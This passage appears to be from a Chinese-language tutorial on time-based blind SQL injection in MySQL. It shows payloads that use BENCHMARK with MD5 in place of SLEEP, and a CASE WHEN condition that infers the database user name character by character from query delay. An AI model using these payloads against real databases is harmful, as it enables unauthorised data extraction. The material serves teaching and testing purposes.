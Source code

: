 ------

### 4. 用 `BENCHMARK()` 替代 `SLEEP`

```sql
SELECT * FROM `users` 
WHERE id = 1 
  AND BENCHMARK(10000000, MD5('test'));
```

👉 效果：执行大量 MD5 → 查询明显变慢。

![image-20250903182454937](images/image-20250903182454937.png)

------

### 5. `CASE WHEN + BENCHMARK`

```sql
SELECT * FROM `users`
WHERE id = 1
  AND (CASE WHEN (SUBSTRING(user(),1,1)='t') 
            THEN BENCHMARK(10000000,MD5('A')) 
            ELSE 1 END);
```

👉 效果：如果数据库用户名以 `t 开头 → 延迟；否则正常返回。
